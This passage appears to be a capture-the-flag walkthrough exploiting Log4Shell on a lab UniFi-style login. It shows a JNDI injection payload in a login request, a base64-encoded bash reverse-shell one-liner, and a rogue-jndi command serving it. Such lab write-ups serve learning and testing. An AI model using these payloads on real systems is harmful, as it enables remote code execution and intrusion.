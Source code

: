 Open burpsuite and from proxy browser with intercept on, login with test:test, then forward steps until following POST and change remember string as follow:
```html
POST /api/login HTTP/1.1

Host: 10.129.124.108:8443

Content-Length: 68

Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"

Sec-Ch-Ua-Mobile: ?0

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36

Sec-Ch-Ua-Platform: "Linux"

Content-Type: application/json; charset=utf-8

Accept: */*

Origin: https://10.129.124.108:8443

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Referer: https://10.129.124.108:8443/manage/account/login?redirect=%2Fmanage

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

{"username":"temp","password":"temp","remember":"${jndi:ldap://10.10.14.203/whatever}","strict":true}
```

Then right click and select send to repeater, go to repeater tab and we are ready to send every times we need this post to server.

Install maven and clone rogue-jndi tool, lets create jar file with the follow command:
First get base64 string command needed to create jar file:
```shell
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```

Take note from BASE64 string and create file jar:
```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```
